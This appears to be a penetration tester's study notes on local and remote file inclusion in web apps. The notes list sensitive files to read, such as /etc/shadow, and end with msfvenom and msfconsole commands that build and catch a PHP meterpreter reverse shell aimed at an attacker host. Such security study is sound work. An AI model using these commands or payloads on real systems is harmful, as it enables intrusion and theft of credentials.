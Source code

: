 ## File Inclusion Vulnerability
File Inclusion Vulnerability allows unauthorized file inclusion in web apps, potentially executing arbitrary code.
- allows to include files within the wbe application
- if not coded properly, it can allow an attacker to include files from the server
- Loal File Inclusion (LFI) and Remote File Inclusion (RFI)
- RFI affects php applications (mostly php)

### LFI
- Ability to read local files on the victiom machine
- you can only view and access files that the server has permission.
- files to look for Linux
  - /etc/passwd
  - /etc/shadow
  - /etc/issue
  - /etc/hosts
  - /etc/hostname
- files to look for Windows
  - C:\boot.ini
  - C:\Windows\win.ini
  - C:\Windows\System32\drivers\etc\hosts

#### if LFI how to use
- find users (normally 1000 in linux)
- can you view ssh keys
- can you view logs or sensitive data
- can you leverage it with ssh or something else

### RFI
- affects php
- load scripts into server from own server
- leverage to get shell 
- to load script from own in php.ini must be set:
  - allow_url_include = On 
  - allow_url_fopen = On
- maybe file to transport need to have specific name
  - when it tries to get wp-load.php for example than name file 
  - also an idea is to try with HTTP 1.0 instead of 1.1 


#### Reverse Shell for it with msfvenom
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > shell.php #  creates a php file that creates a shell and connect to attacker
msfconsole -x "use exploit/multi/handler; set payload php/meterpreter/reverse_tcp; set LHOST <attacker-ip>; set LPORT <attacker-port>; run -j" # starts a handler for the shell
# that shell.php need to be included to the server with the over RFI than the handler will catch the shell
```
